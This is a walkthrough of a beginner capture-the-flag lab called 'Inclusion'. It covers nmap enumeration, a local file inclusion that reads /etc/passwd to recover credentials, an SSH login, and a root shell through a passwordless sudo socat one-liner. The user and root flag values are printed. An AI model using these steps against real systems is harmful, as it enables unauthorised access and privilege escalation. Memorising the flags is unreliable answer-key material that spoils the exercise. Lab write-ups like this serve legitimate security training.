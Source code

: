 # Inclusion

A beginner level LFI challenge

---

# Task 1

1. Deploy the machine and start enumerating

It seems there's two open ports

```
Nmap scan report for 10.10.233.27
Host is up (0.080s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

It seems the webserver is hosting some PHP script that has a GET parameter of
`name`:
```
http://10.10.233.27/article?name=lfiattack
http://10.10.233.27/article?name=hacking
http://10.10.233.27/article?name=rfiattack
```

The `lfihcaking` and `rfihacking` pages actually give some good tips on what you
can try.

We've found `/etc/passwd` by using LFI and it seems it has credentials commented
out in there. Let's use those to enter the box.

No answer needed.

# Task 2

1. user flag

```bash
$ ssh falconfeast@10.10.233.27
falconfeast@10.10.233.27's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)
Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
60989655118397345799
```


```
60989655118397345799
```

2. root flag

`sudo -l` shows we can run `/usr/bin/socat` as root without password

```bash
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

[gtfobins](https://gtfobins.github.io/gtfobins/socat/) has great examples on how
we can use `socat` to escalate privileges.

```
falconfeast@inclusion:~$ sudo /usr/bin/socat stdin exec:/bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
```

Now that we have root we only need to extract the root flag.

```bash
ls /root
root.txt
cat /root/root.txt
42964104845495153909
```

```
42964104845495153909
```
